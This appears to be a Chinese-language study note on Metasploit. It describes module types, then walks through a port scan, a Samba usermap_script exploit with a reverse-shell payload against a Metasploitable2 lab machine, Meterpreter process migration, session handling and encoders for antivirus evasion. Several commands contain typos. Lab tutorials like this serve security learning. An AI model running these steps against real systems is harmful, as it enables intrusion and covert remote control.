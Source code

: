 # Metasploit模块
1. Auxiliaries 辅助模块
负责执行扫描，嗅探，指纹识别等相关功能以辅助渗透测试。
2. Exploit 漏洞利用模块
利用一个系统、应用或服务中的安全漏洞进行的攻击行为。
3. Payload 攻击载荷模块
成功渗透目标后，用于在目标系统上运行任意命令或者特定代码，在Metasploit框架中可以自由选择、传送和植入。
4. Post 后期渗透模块
主要负责获取到目标系统远程控制权限后，进行一系列的后渗透攻击动作。
5. Encoders 编码工具模块
负责在渗透测试中负责免杀，防止被安全设备或软件识别出来。
# 渗透攻击步骤
1. 扫描目标机系统，寻找可用漏洞
2. 选择并配置一个漏洞利用模块
3. 选择并配置一个攻击载荷模块
4. 选择一个编码即使，用来绕过杀毒软件的查杀
5. 渗透攻击

## 一、使用辅助模块进行端口扫描
     1.msfconsole
     2.search portscan
     3.use auxiliary/scanner/portscan/tcp
     4.show options
     5.set RHOST 169.254.170.249
     6.set PORTS 1-65535
     7.set THREADS 10
     8.show options
     9.run
## 常用的扫描模块及功能
p193
## 二、漏洞利用
  
     实验下载地址：https://sourceforge.net/projects/metasploitable/files/Metasploitable2
     默认的登录名和密码是msfadmin：msfadmin
1. 收集目标机的信息

        namp -Sv 192.168.101.135
        发现Samba 3.x服务
2. 搜索漏洞利用模块
     
       search samba
       返回的利用列表是根据利用难度来整理的
4. 查看漏洞详细信息

       可以查看漏洞利用模块信息
       info exploit/multi/samba/usermap_script
5. 漏洞模块利用

       use exploit/multi/samba/usermap_script
       命令行由msf>变成msf5 exploit(multi/samba/usermap_script) > 
6. 查看漏洞利用模块下可供的攻击载荷模块

       show payloads
7. 选择一个攻击载荷进行攻击

        这里选择cmd/unix/revers反向攻击载荷模块
        set PAYLOAD cmd/unix/reverse
8. 设置攻击主机IP地址

      set RHOST 192.168.101.135
        
9. 设置漏洞利用端口

      set PRORT 445
10. 设置发动攻击主机ip地址

      set LHOST 192.168.101.131
11. 输入攻击命令

      exploit或者run

## 四、进程迁移
刚获取Meterpreter Shell时，该Shell是脆弱的。例如，攻击者可以利用浏览器漏洞攻陷目标机器，但攻击渗透后浏览器有可能被用户关闭，所有第一步要移动这个shell，把它和目标机中的一个文档进程绑定在一起，也不需要对磁盘进行任何写入操作，使得更安全
1. 查看目标机正在运行的进程

       meterpreter > ps
       ps命令获取目标主机正在运行的进程

2. 查看Meterpreter Shell的进程号

       meterpreter > getpid
       获取Meterpreter shell的pid进程号
4. 迁移进程号

       meterpreter > migrate 448(要迁移到的进程号)
    进程迁移后原先的PID会自动关闭，如果没有关闭则可以使用kill 984(需要关闭的进程号)。

    同样也可以使用自动迁移进程命令

        run post/windows/manage/migrate
     系统会自动寻早合适的进程然后迁移
## 五、其他操作
1. 退出meterpreter 退出到MSF框架

           输入：background
2. 查看我们获得的shell

           ssessions  -l
3. 切换到id为1的shell
   
          sessions -i 1
          切换到id为1的shell

